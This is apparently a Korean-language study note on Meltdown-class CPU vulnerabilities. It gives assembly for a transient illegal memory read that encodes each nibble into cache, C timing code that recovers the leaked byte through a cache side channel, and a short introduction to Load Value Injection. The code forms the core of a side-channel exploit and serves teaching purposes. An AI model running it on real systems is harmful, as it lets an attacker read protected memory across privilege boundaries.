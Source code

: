 ```c
.global do_access
do_access:
    push %rbx
    push %rdi
    push %rsi
    push %rdx

    // Do the illegal access (rdx is ptr param)
    movb (%rdx), %bl
    // Duplicate result to rax
    mov %rbx, %rax

    // calculate our_buffer_lsb offset according to low nibble
    and $0xf, %rax
    shl $0xc, %rax

    // calculate our_buffer_msb offset according to high nibble
    shr $0x4, %rbx
    and $0xf, %rbx
    shl $0xc, %rbx

    // rsi is our_buffer_lsb param
    mov (%rsi, %rax, 1), %rax
    // rdi is our_buffer_msb param
    mov (%rdi, %rbx, 1), %rbx
```

`rdx`에 타겟 주소를 넣어 읽을 주소를 정하고 4비트씩 읽어 L1 cache에 적재한다.

```c
// 위 어셈코드
do_access(our_buffer->buffer_msb, our_buffer->buffer_lsb, ptr);

for (i = 0; i < CACHE_ELEMS; i++) {
        access_times_lsb[i].delta = measure_access_time(
            &our_buffer->buffer_lsb[i * CACHE_ELEM_SIZE]
        );
        access_times_lsb[i].val = i;

        access_times_msb[i].delta = measure_access_time(
            &our_buffer->buffer_msb[i * CACHE_ELEM_SIZE]
        );
        access_times_msb[i].val = i;
    }
```

그리고 적재된  공간의 시간을 재서 메모리를 읽는다. 

# Load Value Injection (LVI)

meltdown, spectre이후 계속 나오는 취약점(Spectre SWAPGS, Zombieland, Foreshadow, Load Value Injection)들은 기본적으로 meltdown, spectre의 기능을 활용한 취약점이다. 분기 예측, 비순차실행으로 임의 영역을 읽고 사이드 채널 공격으로 트리거한다.
